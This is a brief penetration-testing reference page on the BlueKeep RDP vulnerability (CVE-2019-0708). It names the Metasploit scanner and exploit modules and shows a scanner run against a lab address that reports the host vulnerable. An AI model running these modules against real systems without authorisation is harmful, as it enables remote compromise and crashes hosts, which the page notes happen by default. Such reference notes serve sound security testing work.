 icon:fontawesome/solid/unlock-keyhole

# CVE-2019-0708

CVE-2019-0708 - BlueKeep RDP Remote Windows Kernel Use After Free

A remote code execution vulnerability exists in Remote Desktop Services formerly known as Terminal Services when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests, aka 'Remote Desktop Services Remote Code Execution Vulnerability'.

The exploit will cause bluescreen by default.

## Scanner

```bash
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

## Exploit

```bash
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

## Examples

##### Scanner example

```bash
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run

[+] 10.10.10.16:3389      - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## References

- [nvd.gist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
- [Pentest-tools.com](https://pentest-tools.com/blog/bluekeep-exploit-metasploit/)
